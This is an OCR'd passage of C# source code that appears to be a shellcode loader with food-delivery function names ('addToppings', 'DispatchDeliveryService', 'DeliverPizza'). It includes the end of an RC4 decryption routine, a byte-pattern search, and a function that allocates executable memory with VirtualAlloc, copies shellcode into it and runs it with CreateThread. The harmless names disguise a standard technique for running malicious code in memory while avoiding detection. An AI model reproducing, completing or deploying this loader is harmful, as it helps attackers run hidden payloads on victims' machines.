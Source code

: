 ```
            for (i = 0; i < 256; i++)
            {
                j = (j + S[i] + T[i]) % 256;
                tmp = S[j];
                S[j] = S[i];
                S[i] = tmp;
            }
            j = 0;
            for (int x = 0; x < dataLen; x++)
            {
                i = (i + 1) % 256;
                j = (j + S[i]) % 256;

                tmp = S[j];
                S[j] = S[i];
                S[i] = tmp;

                t = (S[i] + S[j]) % 256;

                result[x] = Convert.ToByte(data[x] ^ S[t]);
            }

            return result;
        }

    public static int addToppings(byte[] _peBytes, byte[] pattern)
        {
            int _max = _peBytes.Length - pattern.Length + 1;
            int j;
            for (int i = 0; i < _max; i++) {
                if (_peBytes[i] != pattern[0]) continue;
                for (j = pattern.Length - 1; j >= 1 && _peBytes[i + j] == pattern[j]; j--) ;
                if (j == 0) return i;
            }
            return -1;
        }


    public static void DispatchDeliveryService(byte[] shellcode)
        {
            uint threadId;

            IntPtr alloc = VirtualAlloc(IntPtr.Zero, shellcode.Length, 0x1000 | 0x2000, 0x40);
            if (alloc == IntPtr.Zero)
            {
                return;
            }

            Marshal.Copy(shellcode, 0, alloc, shellcode.Length);
            IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, out threadId);
            WaitForSingleObject(threadHandle, 0xFFFFFFFF);
        }

    public static void WriteFile(string filename, byte[] rawData)
        {
            FileStream fs = new FileStream(filename, FileMode.OpenOrCreate);
            fs.Write(rawData, 0, rawData.Length);
            fs.Close();
        }

	public static bool DeliverPizza()
	{
```